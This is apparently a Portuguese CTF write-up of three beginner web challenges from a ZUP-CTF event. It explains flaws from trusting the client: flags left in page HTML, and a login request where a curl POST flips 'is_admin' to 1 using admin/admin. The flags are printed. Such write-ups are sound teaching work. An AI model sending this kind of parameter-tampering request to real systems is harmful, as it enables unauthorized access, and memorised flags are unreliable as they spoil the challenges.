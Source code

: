 **Solução**

Um simples curl revelou o código com a flag:
```bash
> curl https://mynicesite.zup.com.br
...
                <p>ZUP-CTF{J4v4_5cr1p7_e_p3r1g0s00}</p>
...
```

**Flag**

ZUP-CTF{J4v4_5cr1p7_e_p3r1g0s00}

## Olhe bem perto
**Falha**

Muitos desenvolvedores iniciantes esquecem que o código do
cliente roda.. No cliente haha. As vezes acabam deixando
informações sensíveis lá onde usuários mal intencionados
poderiam ler.

**Solução**

Um simples curl revelou o código com a flag:
```bash
> curl https://lookclosely.zup.com.br/
...
<p id="flag">ZUP-CTF{h1dden_EaSy}</p>
...
```

**Flag**

ZUP-CTF{h1dden_EaSy}


## Easy 2

**Falha**

Toda lógica de negócio deve ficar no servidor, o cliente
e sua comunicação com o server podem ser facilmente (as
vezes nem tão fácil haha) modificadas ou replicadas.

**Solução**

Identificando a requisição feita para o login, bastou
alterar o parâmetro `is_admin` de `0` para `1` e a flag
já veio na resposta. Adivinha? Um simples curl de novo =P

```bash
> curl 'https://easytwo.zup.com.br/index.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=admin&password=admin&is_admin=1'

ZUP-CTF{N4d4_p0d3_S3r_0CULT4DO_Fr0m_4_h4X0R}
...
```
